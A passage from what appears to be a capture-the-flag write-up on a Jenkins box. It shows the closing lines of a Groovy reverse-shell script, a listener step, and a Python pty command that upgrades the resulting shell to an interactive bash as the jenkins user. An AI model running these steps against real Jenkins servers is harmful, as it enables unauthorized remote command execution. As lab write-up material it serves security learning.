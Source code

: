 ```groovy
    Thread.sleep(50);
}

p.destroy(); s.close();
```

Start a listener and run it

<figure><img src="../../../.gitbook/assets/image (772).png" alt=""><figcaption></figcaption></figure>

Nice, we get a connection but it seems its a semi shell. Try to upgrade it with a generic Python pty module

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

<figure><img src="../../../.gitbook/assets/image (773).png" alt=""><figcaption></figcaption></figure>

Looks like we are the jenkins admin user but we don't have any home directory or flag lol

<figure><img src="../../../.gitbook/assets/image (774).png" alt=""><figcaption></figcaption></figure>
